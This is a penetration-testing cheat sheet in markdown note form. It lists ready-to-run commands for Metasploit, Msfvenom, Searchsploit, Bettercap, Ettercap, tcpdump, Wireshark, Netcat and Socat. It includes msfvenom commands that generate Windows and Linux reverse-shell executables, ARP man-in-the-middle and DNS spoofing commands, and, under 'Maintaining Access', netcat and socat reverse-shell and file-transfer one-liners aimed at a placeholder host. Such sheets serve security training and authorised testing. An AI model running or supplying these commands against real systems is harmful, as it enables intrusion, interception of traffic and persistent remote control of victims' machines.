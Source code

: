 ##### [[Metasploit]]
  - `msfconsole` → start Metasploit console
  - `search <keyword>` → find module
  - `use exploit/...` / `set RHOSTS <ip>` / `exploit` → run exploit

##### [[Msfvenom]]
  - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o shell.exe` → Windows reverse shell exe
  - `msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf -o shell.elf` → Linux reverse shell ELF
  - `msfvenom -p ... -f c` → output C-style shellcode

##### [[Searchsploit]]
  - `searchsploit <keyword>` → search Exploit-DB offline
  - `searchsploit -m <id>` → copy exploit to current directory
  - `searchsploit -x <id>` → open exploit in editor

### 08 - Sniffing & Spoofing

##### [[Bettercap]]
  - `bettercap -iface <iface>` → start Bettercap on an interface
  - `net.probe on` / `net.recon on` → discover hosts
  - `arp.spoof on` / `net.sniff on` → perform ARP MITM and sniff traffic

##### [[Ettercap]]
  - `ettercap -T -M arp:remote /<target1>/ /<target2>/` → ARP MITM between two hosts
  - `ettercap -G` → launch GUI mode
  - Use plugins like `dns_spoof` for DNS hijacking

##### [[TCPdump]]
  - `tcpdump -i eth0 -nn -c 10` → capture 10 packets
  - `tcpdump -i eth0 port 80 -A` → capture and show HTTP traffic
  - `tcpdump -i wlan0 -w capture.pcap` → save to file for Wireshark

##### [[Wireshark]]
  - `wireshark` → launch GUI analyzer
  - Display filters: `http`, `ip.addr == <ip>`, `tcp.port == 21`
  - Right-click packet → Follow TCP Stream → reconstruct conversation

### 09 - Maintaining Access

##### [[Netcat]]
  - `nc -lvnp 4444` → listener on port 4444
  - `nc <ip> 4444 -e /bin/bash` → reverse shell to listener
  - `nc -l -p 1234 < file.txt` / `nc <ip> 1234 > file.txt` → file transfer
##### [[Socat]]
  - `socat tcp-connect:<ip>:<port> exec:/bin/bash,pty,stderr,sigint,setsid,sane` → reverse shell
  - Listener: `socat file:\`tty\`,raw,echo=0 tcp-listen:4444`  
    Victim: `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip>:4444` → stable shell upgrade
  - `socat tcp-listen:8080,reuseaddr,fork tcp:<target>:80` → port forward
